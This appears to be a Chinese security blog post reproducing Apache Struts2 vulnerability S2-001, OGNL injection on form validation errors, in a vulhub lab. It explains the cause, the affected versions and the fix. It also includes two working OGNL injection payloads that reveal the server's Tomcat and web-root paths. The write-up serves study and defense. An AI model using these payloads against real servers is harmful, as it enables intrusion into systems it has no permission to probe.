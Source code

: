 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/BLchiURuoh_PB8Qv-1Rt1g)

![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif)  

**漏洞信息：**

**漏洞信息页面：** 

https://cwiki.apache.org/confluence/display/WW/S2-001

  
**漏洞成因官方概述：**

Remote code exploit on form validation error

**漏洞影响：**  
WebWork 2.1 (with altSyntax enabled), WebWork 2.2.0 - WebWork 2.2.5, Struts 2.0.0 - Struts 2.0.8

![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL83bBoGVE9u0L3El1ibJHEbCb7ahmzB24k8e9ticTicpCicaGwIOBfSHSWjytDHOlGPShSaTQpddbEbDQ/640?wx_fmt=png)

**环境搭建：**  
用 vulhub 靶场进行搭建，非常方便

  
 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL83bBoGVE9u0L3El1ibJHEbCE1QShrHbJZibMVyrZHP7BudZlibXR7vjo6zXqP9LjseWRO018S8ic7N0A/640?wx_fmt=png)   
  

我已经搭建完成，这个图片是已经搭建完成的，使用 docker ps 命令 查看已经搭建好的靶场容器。

  
**原理：**

该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value}

  
进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value}

  
对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行 

  
**利用过程：**  
进入靶场

  
 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL83bBoGVE9u0L3El1ibJHEbCiaBM6vyqX8692G91wlEXHNWfG0tNqmsWFGy7dzpHNX5UqsFxRQmp4vA/640?wx_fmt=png)   
这个漏洞的问题在于可以直接输入和直接回显  
将 POC 粘到一个输入框，点击 Submit  
此后会将数据提交到后端，后端检测值是否为空，然后返回，满足漏洞前提  
获取 tomcat 执行路径：  

```
<span class="token operator">%</span><span class="token punctuation">{</span><span class="token string">"tomcatBinDir{"</span><span class="token operator"> </span><span class="token annotation punctuation">@java</span><span class="token punctuation">.</span>lang<span class="token punctuation">.</span>System<span class="token annotation punctuation">@getProperty</span><span class="token punctuation">(</span><span class="token string">"user.dir"</span><span class="token punctuation">)</span><span class="token operator"> </span><span class="token string">"}"</span><span class="token punctuation">}</span>
```

 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL83bBoGVE9u0L3El1ibJHEbCgtDh2leJFORQej60WAhRbJA2QYngQghQiaaxesYBm6XQLL7d5SD8S0g/640?wx_fmt=png) 

获取 Web 路径：

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL83bBoGVE9u0L3El1ibJHEbC2lXvFVT5hZWwtLXTFHWOJDcib1zJljqFxHcwzqRndUVuZWmW2TIn4SQ/640?wx_fmt=png)   
**总结：**

最后总结一下 S2-001 的一个触发条件：开启 altSyntax 功能；使用 s 标签处理表单；action 返回错误；OGNL 递归处理

  
值得一提的是 Struts2 官方给出了一个解决办法中提到了：从 XWork 2.0.4 开始，OGNL 解析被更改，因此它不是递归的。因此，在上面的示例中，结果将是预期的％{1 1}。

  
也就是只会获取到 username 的内容，而不会再把 username 里的内容再执行一遍。

![](https://mmbiz.qpic.cn/mmbiz_jpg/3xxicXNlTXLicjiasf4mjVyxw4RbQt9odm9nxs9434icI9TG8AXHjS3Btc6nTWgSPGkvvXMb7jzFUTbWP7TKu6EJ6g/640?wx_fmt=jpeg)

推荐文章 ++++

![](https://mmbiz.qpic.cn/mmbiz_jpg/US10Gcd0tQFGib3mCxJr4oMx1yp1ExzTETemWvK6Zkd7tVl23CVBppz63sRECqYNkQsonScb65VaG9yU2YJibxNA/640?wx_fmt=jpeg)

*[Struts2-Scan 一款全漏洞扫描利用工具](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650458569&idx=4&sn=64c720a722b75c34fac399fe042bd5e8&chksm=83bbac2db4cc253beb1c0e84ea287d9efc6b2e9679dad4b11372e65f25e718f7ad43dbbe9c71&scene=21#wechat_redirect)

*[Python 编写的开源 Struts2 全版本漏洞检测工具](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650444040&idx=5&sn=88035264f9fdadb5583756604aa3421d&chksm=83bbf4ecb4cc7dfa412091fa5344af3d8085f03cb0ac18b680a6452d8bf724ec48965e44c5d1&scene=21#wechat_redirect)

*[Struts2 再爆高危漏洞 S2-048 来了](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650442889&idx=1&sn=65a7488342b638d2db4b260790eebbf7&chksm=83bbe96db4cc607b12834df5bb5fe8a0c6d8d1b93ef1de7ad73a1aa6fa54fad21229d15d8532&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLib0FWIDRa9Kwh52ibXkf9AAkntMYBpLvaibEiaVibzNO1jiaVV7eSibPuMU3mZfCK8fWz6LicAAzHOM8bZUw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/NZycfjXibQzlug4f7dWSUNbmSAia9VeEY0umcbm5fPmqdHj2d12xlsic4wefHeHYJsxjlaMSJKHAJxHnr1S24t5DQ/640?wx_fmt=gif)